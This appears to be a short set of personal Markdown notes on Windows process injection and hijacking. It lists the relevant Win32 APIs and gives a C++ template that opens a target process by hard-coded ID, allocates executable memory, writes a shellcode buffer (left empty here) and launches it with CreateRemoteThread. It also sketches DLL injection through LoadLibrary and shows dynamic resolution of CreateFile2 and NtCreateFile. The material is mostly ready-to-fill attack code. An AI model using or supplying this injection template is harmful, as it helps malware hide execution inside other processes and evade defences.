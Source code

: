 # Windows 
### Injection and Hijacking

### Win APi Functions

OpenProcess 

VirtualAllocEx 

WriteProcessMemory

CreateRemoteThread


### Inject thread 


```cpp
#include <windows.h>
#include <processthreadsapi.h>

int main() {

    HANDLE hProcess, hThread;
    LPVOID start_ptr;
    DWORD tid;
    size_t written;

    char shellcode[] = {

    };
    start_ptr = (LPVOID) 0x13370000;

    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 2676);

    start_ptr = VirtualAllocEx(hProcess, start_ptr, 0x1000,  MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    WriteProcessMemory(hProcess, start_ptr, shellcode, 256, &written);

    hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)start_ptr, NULL, 0, &tid);

}

```


without virtualalloc

find writeable memory, put loadlibrary , pass dll as argument and call CreateRemoteThread


```

typedef HANDLE (WINAPI *CREATEFILE2)(LPCWSTR, DWORD, DWORD, DWORD, LPCREATEFILE2_EXTENDED_PARAMETERS);

GetProcAddress(GetModuleHandleA("kernelbase"), "CreateFile2");
```


```
typedef NTSTATUS (NTAPI *NtCreateFile_t)(
    PHANDLE, ACCESS_MASK, POBJECT_ATTRIBUTES, PIO_STATUS_BLOCK,
    PLARGE_INTEGER, ULONG, ULONG, ULONG, ULONG, PVOID, ULONG
);
GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateFile");
```

